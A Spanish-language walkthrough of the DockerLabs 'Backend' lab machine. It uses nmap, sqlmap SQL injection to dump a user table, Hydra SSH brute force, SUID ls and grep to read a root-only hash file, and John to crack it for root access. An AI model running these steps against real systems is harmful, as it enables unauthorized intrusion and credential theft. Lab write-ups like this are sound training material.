










# 🧠 **Informe de Pentesting – Máquina: Backend**

### 💡 **Dificultad:** Fácil

### 🧩 **Plataforma:** DockerLabs

### 🕵️‍♂️ **Tipo de ataque:** Inyección SQL + Escalada de privilegios con SUID


---

## 📝 **Descripción de la máquina**

La máquina vulnerable **Backend** simula un entorno real donde un servidor web mal configurado expone una aplicación con una página de login vulnerable a **inyección SQL**. A partir de esta vulnerabilidad, el atacante puede acceder a la base de datos y obtener credenciales de usuarios, lo que abre la puerta para conectarse vía **SSH** y escalar privilegios localmente explotando binarios mal configurados con **permisos SUID**.

---

## 🎯 **Objetivo**

* Detectar y explotar una vulnerabilidad de **inyección SQL** para obtener acceso a credenciales del sistema.
* Utilizar estas credenciales para acceder al servidor mediante **SSH**.
* Escalar privilegios a **root** mediante técnicas de post-explotación.
* Capturar la **flag final o archivo sensible** como prueba de acceso total.

---

## ⚙️ **Despliegue de la máquina**

Se descarga el archivo comprimido de la máquina vulnerable y se lanza el contenedor Docker mediante el script incluido:

```bash
unzip backend.zip
sudo bash auto_deploy.sh backend.tar
```


---

## 📡 **Comprobación de conectividad**

Verificamos que la máquina se encuentra activa respondiendo a peticiones ICMP (ping):

```bash
ping -c1 172.17.0.3
```


---

## 🔍 **Escaneo de Puertos**

Realizamos un escaneo completo para detectar todos los puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

**Puertos detectados:**

* `22/tcp`: SSH
* `80/tcp`: HTTP


Luego, analizamos los servicios y versiones asociados a esos puertos:

```bash
nmap -sCV -p22,80 172.17.0.3 -oN target.txt
```


---

## 🌐 **Análisis Web**

Al acceder a `http://172.17.0.3/`, encontramos un sitio web básico con un archivo llamado `login.html`.




---

## 🚨 **Detección de Inyección SQL**

Se probó la introducción de una comilla simple `'` en el campo de usuario, generando un error SQL. Esto indica que la aplicación **no filtra correctamente las entradas del usuario**, exponiendo el backend a una **inyección SQL**.

> Esta vulnerabilidad permite al atacante manipular las consultas SQL originales para acceder a datos confidenciales.




---

## 🧰 **Explotación Automática con SQLMap**

Utilizamos `sqlmap`, una poderosa herramienta de automatización de inyecciones SQL, para extraer las bases de datos, tablas y contenido sensible:

**1️⃣ Enumerar bases de datos:**

```bash
sqlmap -u "http://172.17.0.3/login.html" --forms --batch --dbs
```

**Bases de datos encontradas:**

* information\_schema
* mysql
* performance\_schema
* sys
* **users**



---

**2️⃣ Listar tablas dentro de la base de datos `users`:**

```bash
sqlmap -u "http://172.17.0.3/login.html" --forms --batch -D users --tables
```



---

**3️⃣ Extraer datos de la tabla `usuarios`:**

```bash
sqlmap -u "http://172.17.0.3/login.html" --forms --batch -D users -T usuarios --dump
```

**Usuarios y contraseñas obtenidas:**

| id | username | password            |
| -- | -------- | ------------------- |
| 1  | paco     | \$paco\$123         |
| 2  | pepe     | **P123pepe3456P** ✅ |
| 3  | juan     | jjuuaann123         |



---

## 🔐 **Ataque de fuerza bruta con Hydra (opcional)**

Creamos dos archivos: uno con los usuarios (`usuarios.txt`) y otro con las contraseñas (`contraseña.txt`) para probar credenciales contra el servicio SSH.

```bash
hydra -L usuarios.txt -P contraseña.txt ssh://172.17.0.3 -t 4
```

**Resultado exitoso:**

```text
[22][ssh] host: 172.17.0.3   login: pepe   password: P123pepe3456P
```



---

## 🧑‍💻 **Acceso al sistema y post-explotación**

### ✅ **1. Acceso por SSH**

Ingresamos exitosamente al sistema con:

```bash
ssh pepe@172.17.0.3
```

---

### 🔍 **2. Verificación de privilegios**

Al ejecutar `sudo -l` descubrimos que el comando `sudo` **no está instalado**, por lo que debemos buscar métodos alternativos para escalar privilegios.

```bash
sudo -l
# Resultado: sudo: command not found
```

---

### 🧱 **3. Búsqueda de binarios con SUID**

Los binarios con el bit SUID activo pueden ser utilizados para ejecutar comandos con los privilegios de su propietario (incluso root). Usamos:

```bash
find / -perm -4000 2>/dev/null
```

Entre ellos, encontramos algunos interesantes como `ls`, `grep`, `su`, etc.

---

### 🔓 **4. Acceso al directorio `/root` con SUID**

Gracias al binario `/usr/bin/ls` con SUID activado, listamos el contenido del directorio `/root`, normalmente restringido:

```bash
/usr/bin/ls -la /root
```

Encontramos el archivo:

```
/root/pass.hash
```

---

### 🧾 **5. Lectura del archivo con `grep` SUID**

Usamos `/usr/bin/grep`, también con SUID, para leer el archivo:

```bash
/usr/bin/grep '' /root/pass.hash
```

**Resultado:**

```
e43833c4c9d5ac444e16bb94715a75e4
```



---

## 🔓 **Crackeo del hash con John the Ripper**

Guardamos el hash en un archivo llamado `hash`, luego ejecutamos:

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
```

**Contraseña obtenida:**

```
spongebob34
```



---

## 🧠 **Escalada final a ROOT**

Con la contraseña obtenida, volvemos a entrar como `pepe` y usamos `su` para cambiar al usuario root:

```bash
su
# Contraseña: spongebob34
```

Acceso concedido ✅
¡Somos root!



---

## 🏁 **Conclusión**

La máquina *Backend* muestra de forma clara cómo una mala implementación en el manejo de entradas de usuario puede llevar a una **inyección SQL**, que posteriormente se traduce en **compromiso total del sistema**. El uso de herramientas como `sqlmap` y `john` permite automatizar el proceso de explotación, mientras que la correcta interpretación de permisos como el **SUID** demuestra cómo escalar privilegios eficazmente.

🔓 **Resumen de pasos clave:**

* Identificación de inyección SQL en `login.html`.
* Explotación con sqlmap → credenciales obtenidas.
* Acceso vía SSH con `pepe:P123pepe3456P`.
* Abuso de binarios SUID (`ls`, `grep`) para leer archivos root.
* Descifrado de hash MD5 con John → contraseña de root.
* Escalada a root con `su`.

---
